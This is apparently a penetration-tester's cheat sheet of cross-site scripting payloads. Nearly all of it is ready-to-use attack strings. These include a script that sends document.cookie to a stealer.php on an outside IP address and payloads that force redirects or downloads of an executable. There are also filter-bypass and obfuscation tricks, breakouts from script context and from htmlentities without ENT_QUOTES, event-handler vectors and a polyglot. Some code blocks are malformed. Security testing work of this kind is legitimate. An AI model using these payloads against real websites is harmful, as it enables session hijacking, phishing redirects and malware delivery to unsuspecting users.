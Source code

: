 # XSS classic playloads

## XSS classic playloads

#### • **Simple Alert XSS :**

```text
### • **redirection :**

```<img src="http://192.168.43.25:443" onerror=alert(document.cookie)>
```

#### • **stealing cookie :**

``<script>document.write(`<img src="http://192.168.1.42/stealer.php?cookie='%2B document.cookie %2B'"/>`);</script>``

#### • **Redirect user :**

`<script>window.location="http://www.polo.com";</script>`

#### • **Forcing user to download something :**

```text
<script>var link = document.createElement('a'); link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = ''; document.body.appendChild(link); link.click();</script>
```

### Simple XSS obfuscation

#### • **Simple Bypass**

```text
<sCripT>alert(1);</sCripT>
est<sc<ScrIpt>ript>alert(1);</sc</ScrIpt>ript>
https://vulnerable.site/index.php?name=est%3Csc%3CScrIpt%3Eript%3Ealert(1);%3C/sc%3C/ScrIpt%3Eript%3E
```

```text
with the <a tag and for the following events: onmouseover (you will need to pass your mouse over the link), onmouseout, onmousemove, onclick ...
with the <a tag directly in the URL: <a href='javascript:alert(1)'... (you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot use script in this example).
with the <img tag directly with the event onerror: <img src='zzzz' onerror='alert(1)' />.
with the <div tag and for the following events: onmouseover (you will need to pass your mouse over the link), onmouseout, onmousemove, onclick
```

#### • **Ascii to decimal**

eval and String.fromCharCode\(\)

`<script>eval(String.fromCharCode(97,108,101,114,116,40,39,53,55,51,50,49,101,56,98,45,48,49,98,102,45,52,98,101,50,45,56,99,52,52,45,56,97,56,99,50,54,99,54,54,49,57,56,39,41,59))</script>`

### Inside a script tag

```text
h1>PAge</h1>
      <p>Welcome!
     <script>
        var $a= "test";
     </script>
    </p>
```

* Add a quotes, try to add a new variable

```text
<script>
    var $a= "";alert(1);var a="";
</script>
</p>
```

### HTML entities in PHP webapps

Special chars cannot be used. Bypass can be done using HTML Entities.

#### Cause

function used to HTML-encode characters \(htmlentities\) does not encode single quotes \('\), unless you told it to do so, using the ENT\_QUOTES flag.

`index.php?name=test"`

--&gt; Escaped double quotes :

`var $a= 'test&quot;';` =

Using a simple quote can do the trick :

`index.php?name=test';alert(1);var a='` =

### Escaped chars \(&lt;&gt;"\)

&lt; &gt; are escaped, so you cannot add our script tag

`ELLO &lt;&gt;&quot;' </p>`

we can try to add something after the index.php

![](../../../../.gitbook/assets/652f5829ea9140dd93b672bc5f179632.png)

Source page :

![](../../../../.gitbook/assets/a823bda8e60444509668f7854a5b1a76.png)

* close the statement and inject a script tag using "&gt;&lt;new tag

[http://vulnerable.site/index.php/ytregkflkgd%22%3E%3Cscript%3Ealert\(1\)%3C/script%3E](http://vulnerable.site/index.php/ytregkflkgd%22%3E%3Cscript%3Ealert%281%29%3C/script%3E)

### Script blacklisted

```text
http://vulnerable.site/index.php?name=%3Cimg%20src=X%20onerror=%27alert(`XSS`)%27%20/%3E
```

\` `<div` can also be used

```text
http://vulnerable.site/index.php?name=%3Csvg/onload=alert(%27XSS%27)%3E``
```

```text
htt://vulnerable.site/index.php?name=<img src=X onerror='alert(1)' />
```

`<b onmouseover=alert('XSS')>Click Me!</b>`

`<svg onload=alert(1)>`

`<body onload="alert('XSS')">`

`<mg src="http://test.safesite.org" onerror=alert(document.cookie);>`

### Polyglot Attack

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

/_-/_`/*\`/_'/_"/_\*/\(/_ \*/oNcliCk=alert\(\) \)//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert\(\)//&gt;\x3e

{% embed url="https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot" %}

### xsshunter.com

* [https://xsshunter.com/app](https://xsshunter.com/app)
* use a payload then check the reports :

![](../../../../.gitbook/assets/8c5e28c3b66e483cbac289ed2ca4f1e2.png)

